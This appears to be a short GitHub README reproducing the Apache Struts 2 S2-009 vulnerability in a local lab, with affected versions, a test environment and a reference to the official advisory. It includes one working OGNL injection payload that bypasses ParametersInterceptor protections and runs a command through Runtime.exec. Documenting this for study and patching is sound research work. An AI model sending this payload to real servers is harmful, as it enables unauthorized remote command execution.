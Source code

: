 # S2-009 Demo

## Summary

Impact of vulnerability: Remote command execution

Affected Software: `Struts 2.0.0` - `Struts 2.3.1.1`

Problem: The vulnerability allows a malicious user to bypass all the protections (regex pattern, deny method invocation) built into the ParametersInterceptor, thus being able to inject a malicious expression in any exposed string variable for further evaluation.

## Environment

Struts2 Version: `Struts-2.2.3`

Server: `Tomcat 6.0.9` (Only in this version did I run payload successfully).

IDE: `idea 2020.1.1 ULTIMATE`

## POC

![{39A82E8C-90BA-420A-BBEE-27B90FEEF2EC}_20200713172021]({39A82E8C-90BA-420A-BBEE-27B90FEEF2EC}_20200713172021.jpg)

## payload

`test.action?foo=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27calc%27%29%29%28meh%29&z[%28foo%29%28%27meh%27%29]=true`

## Reference

- [S2-009](https://cwiki.apache.org/confluence/display/WW/S2-009)

